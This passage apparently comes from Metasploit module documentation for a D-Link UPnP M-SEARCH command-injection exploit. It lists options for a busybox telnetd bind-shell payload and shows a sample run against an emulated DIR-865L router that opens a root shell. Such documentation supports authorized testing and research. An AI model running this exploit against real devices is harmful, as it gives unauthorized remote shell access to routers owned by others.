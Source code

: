 ```shell

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/unix/bind_busybox_telnetd):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   LOGIN_CMD  /bin/sh          yes       Command telnetd will execute on connect
   LPORT      4444             yes       The listen port
   RHOST      192.168.0.1      no        The target address


Exploit target:

   Id  Name
   --  ----
   0   Unix Command


View the full module info with the info, or info -d command.
```

## Options
### HTTP_PORT
Port setting where the HTTP and SOAP service is running, typically port 80.
This is used to discover the d-link hardware and version information by scraping the web or soap response.

## Scenarios
###  FirmAE D-Link DIR-865L Router Emulation Unix Command -  cmd/unix/bind_busybox_telnetd
```shell
msf6 exploit(linux/upnp/dlink_upnp_msearch_exec) > check

[*] Checking if 192.168.0.1:1900 can be exploited.
[*] 192.168.0.1:1900 - The target appears to be vulnerable. Product info: DIR-865L|1.07|A1|mipsle
msf6 exploit(linux/upnp/dlink_upnp_msearch_exec) > exploit

[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.0.1:1900 can be exploited.
[+] The target appears to be vulnerable. Product info: DIR-865L|1.07|A1|mipsle
[*] Executing Unix Command for cmd/unix/bind_busybox_telnetd
[*] Started bind TCP handler against 192.168.0.1:4444
[*] Command shell session 1 opened (192.168.0.2:42349 -> 192.168.0.1:4444) at 2023-10-17 18:35:36 +0000

Shell Banner:
_!_

 # uname -a
uname -a
Linux dlinkrouter 4.1.17+ #28 Sat Oct 31 17:56:39 KST 2020 mips GNU/Linux
 # hostname
hostname
dlinkrouter
```